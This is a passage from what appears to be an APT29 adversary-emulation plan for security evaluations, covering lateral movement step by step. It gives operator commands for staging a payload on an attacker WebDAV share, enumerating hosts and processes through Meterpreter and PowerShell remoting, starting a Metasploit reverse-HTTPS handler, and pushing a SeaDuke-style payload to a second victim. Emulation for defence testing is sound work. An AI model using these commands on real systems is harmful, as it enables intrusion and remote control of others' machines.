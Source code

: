 The attacker uses Lightweight Directory Access Protocol (LDAP) queries to enumerate other hosts in the domain ([T1018](https://attack.mitre.org/techniques/T1018/)) before creating a remote PowerShell session to a secondary victim ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.006](https://attack.mitre.org/techniques/T1021/006/)). Through this connection, the attacker enumerates running processes ([T1057](https://attack.mitre.org/techniques/T1057/)). Next, the attacker uploads ([T1105](https://attack.mitre.org/techniques/T1105/)) a new UPX-packed payload ([T1027](https://attack.mitre.org/versions/v6/techniques/T1027/) / [T1027.002](https://attack.mitre.org/techniques/T1027/002/)) to the secondary victim. This new payload is executed on the secondary victim via the PSExec utility ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.002](https://attack.mitre.org/techniques/T1021/002/), [T1035](https://attack.mitre.org/versions/v6/techniques/T1035/) / [T1569.002](https://attack.mitre.org/techniques/T1569/002/)) using the previously stolen credentials ([T1078](https://attack.mitre.org/versions/v6/techniques/T1078/) / [T1078.002](https://attack.mitre.org/techniques/T1078/002)).

### Procedures

#### 8.A - Remote Services: Windows Remote Management ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.006](https://attack.mitre.org/techniques/T1021/006/))

Copy payload to webdav share:

[user@attacker]\# `cp attack-evals/apt29/day1/payloads/python.exe /var/www/webdav/`
[user@attacker]\# `cd /var/www/webdav`
[user@attacker]\# `chown -R www-data:www-data python.exe`

Switch back to Meterpreter shell:

[meterpreter (PowerShell)\*] > `Ad-Search Computer Name *`

[meterpreter (PowerShell)\*] >

```powershell
Invoke-Command -ComputerName <victim 2 IP> -ScriptBlock { Get-Process -IncludeUserName | Select-Object UserName,SessionId | Where-Object { $_.UserName -like "*\$env:USERNAME" } | Sort-Object SessionId -Unique } | Select-Object UserName,SessionId
```

Note the session ID for step 8C.

#### 8.B - Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))

Start a new instance of Metasploit, and spawn a Metasploit handler:

[bash] > `msfconsole`

[msf] > `handler -H 0.0.0.0 -P 8443 -p python/meterpreter/reverse_https`

Return to current Meterpreter session:

[meterpreter (PowerShell)\*] > `Invoke-SeaDukeStage -ComputerName <victim 2 IP>`

#### 8.C - System Services: Service Execution ([T1035](https://attack.mitre.org/versions/v6/techniques/T1035/) / [T1569.002](https://attack.mitre.org/techniques/T1569/002/))
